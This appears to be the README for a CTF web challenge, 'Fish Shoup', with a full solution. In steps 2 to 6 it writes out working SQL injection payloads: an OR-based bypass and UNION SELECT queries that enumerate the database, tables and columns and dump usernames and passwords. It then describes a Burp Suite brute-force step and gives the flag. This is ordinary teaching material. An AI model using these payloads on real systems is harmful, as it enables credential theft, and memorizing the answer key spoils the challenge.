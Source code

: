 # Fish Shoup

## Question Text

>Help all marshmellow fart and skittle burp fishes!!!
>
>We forgot the credentials of our blog account because we have small brains!
>
>Log into it to get your awesome reward of helping us, we are nice creatures!
>
>But remember to keep it a secret! Shhh...
>Connect via `http://<ip address> 17456`

## Created by

@stopduckroll &amp; @paux &amp; @platy

## Setup Guide
Do `bash build.sh`

(It takes 15 seconds for the sql server to initialise. Everything should work after awhile)

## Distribution
None.

## Solution

1. When you first see the site, you will notice that you can search for fishes and also login
2. When you enter `'OR'1==1'#` you will notice that all entries comes out, meaning its vulnerable to sql injection
3. To view database name `asdf' UNION ALL SELECT null,null,database(),null,null #`
4. You can then use that to enter malicious sql code to view all table names `asdf' UNION ALL SELECT null,null,table_name,null,null FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'fishshoups' #`
5. From there you realise that there is a table storing user details,run this to see the collumn names `asdf' UNION ALL SELECT null,null,column_name,null,null FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'user_details_login' #` 
6. Crafting a new malicious string `asdf' UNION ALL SELECT null,user,password,null,role FROM user_details_login #` will allow you to see all the usernames
7. Now with all the username and passwords, you can use burpsuite to perform a "intruder attack on it"
8. Put the two payloads and put a regex for `GCTF`
9. Get flag

### Flag
`GCTF{m00ny_607_17}`


## Credits
CTF 101.

Thanks @Lflare for fixing mysql issues.

## Recommended Reads
None.
